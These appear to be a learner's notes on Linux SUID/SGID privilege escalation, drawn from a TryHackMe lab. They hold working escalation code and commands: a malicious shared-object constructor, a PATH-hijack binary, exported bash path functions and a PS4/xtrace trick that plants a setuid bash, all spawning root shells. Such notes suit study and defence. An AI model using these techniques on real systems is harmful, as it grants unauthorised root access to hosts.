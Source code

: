 
The file is run with the permissions of it's user/group

SUID = Set User ID
SGID = Set Group ID

### Find them

	Find SUID binaries
		`find / -perm -u=s -type f 2>/dev/null`
	Find SGID binaries
		`find / -perm -g=s -type f 2>/dev/null`
	Both - test this one more
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` shorter
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} + 2> /dev/null` columns

find suids, from thm room - test 
`find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null`

Look in https://gtfobins.github.io/ and google

### Shared Object Injection

https://tryhackme.com/r/room/linuxprivesc Task 12
If we have suid root perms on a file that req a library that we can "modify", path "fix"

find by:
`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

### Environment Variables

https://tryhackme.com/r/room/linuxprivesc Task 13

we run the executable we have suid/sgid on to see what it does
we run strings on it to see if it calls/runs something - looking for paths

we can use that the executable is inheriting the user's PATH environment variable and not using a full path

replace called executable with our own

```c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

`gcc -o executable-name our-code.c`

run the suid/sgid binary after setting the path to the place where our file is (current dir in example)

`PATH=.:$PATH /usr/local/bin/the-suid-sgid-binary`

### Abusing Shell Features (#1)

If bash is older than 4.2-048, functions can be made with names that are the exact same as actual paths:

```sh
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
export -f makes the function available to following commands and executables

run the SUID/SGID executable calling the path we replaced

### Abusing Shell Features (#2)

In bash older than 4.4 we can use the debug mode, replacing the default "+ " at the start of the debug lines with our own "text"

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/mybash; chmod +xs /tmp/mybash)' /usr/local/bin/the-suid-sgid-binary`
	`env -i` clears the environment before adding the new vars
	`PS4` stans for "Prompt String 4"




---


thm:

The maximum number of bit that can be used to set permission for each user is 7, which is a combination of read (4) write (2) and execute (1) operation. For example, if you set permissions using **"chmod"** as **755**, then it will be: rwxr-xr-x.

  
But when special permission is given to each user it becomes SUID or SGID. When extra bit **“4”** is set to user(Owner) it becomes **SUID** (Set user ID) and when bit **“2”** is set to group it becomes **SGID** (Set Group ID).  

Therefore, the permissions to look for when looking for SUID is:

SUID:

rws-rwx-rwx

GUID:

rwx-rws-rwx  

**Finding SUID Binaries**  

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: **"find / -perm -u=s -type f 2>/dev/null"** to search the file system for SUID/GUID files. Let's break down this command.

**find** - Initiates the "find" command  

**/** - Searches the whole file system  

**-perm** - searches for files with specific permissions  

**-u=s** - Any of the permission bits _mode_ are set for the file. Symbolic modes are accepted in this form

**-type f** - Only search for files  

**2>/dev/null** - Suppresses errors


---


### normal SUID

/bin/su
/usr/bin/sudo

/bin/ping
/bin/mount
/bin/umount
/bin/fusermount

/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/newgrp

/usr/lib/openssh/ssh-keysign

/usr/bin/at     # unless it's RTru64 linux, in which case CVE-2002-1614


### normal SGID

/usr/bin/ssh-agent
/usr/bin/chage
/usr/bin/expiry
/usr/bin/mlocate
/usr/bin/wall
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/at
/usr/lib/x86_64-linux-gnu/utempter/utempter
/sbin/unix_chkpwd
/sbin/pam_extrausers_chkpwd

